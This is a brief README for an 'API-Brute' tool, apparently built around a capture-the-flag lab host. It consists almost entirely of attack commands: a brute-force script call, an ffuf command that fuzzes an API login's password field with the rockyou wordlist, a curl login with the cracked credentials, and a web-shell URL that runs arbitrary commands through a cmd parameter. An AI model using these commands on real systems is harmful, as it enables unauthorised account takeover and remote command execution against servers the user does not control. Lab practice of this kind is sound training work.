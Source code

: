 # API-Brute
Attack the developers
1. `./BruteForce.py --url 10.10.x.x --wordlist <file> --data "user=admin, password=FUZZ" --code 200`

> or use fuff
```
ffuf -w /opt/rockyou.txt -u http://api.motunui.thm:3000/v2/login -X POST -H "Content-Type: application/json" -d '{"username": "maui", "password": "FUZZ"}' -fr "error" -fc 401 -c -v
```
>then content with curl
```
curl -d '{"username":"maui","password":"island"}' -H 'Content-Type: application/json' http://api.motunui.thm:3000/v2/login
```
> then go to http://example.com/shell.php?cmd=`<exec>`
